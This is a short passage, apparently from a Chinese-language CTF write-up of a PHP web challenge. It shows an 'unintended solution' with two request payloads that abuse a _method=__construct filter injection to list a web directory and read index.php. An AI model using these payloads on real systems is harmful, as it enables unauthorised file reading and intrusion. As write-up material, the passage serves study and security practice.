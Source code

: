 不过比较遗憾的是 `error_log` 被我不小心加到了 `disable_functions` 里。

![image.png](./img/47.png)

### 非预期4

`_method=__construct&filter[]=scandir&filter[]=var_dump&method=GET&get[]=/var/www/html/public/`
`_method=__construct&filter[]=highlight_file&method=GET&get[]=/var/www/html/public/index.php`

直接列目录+文件读取上车

![image.png](./img/48.png)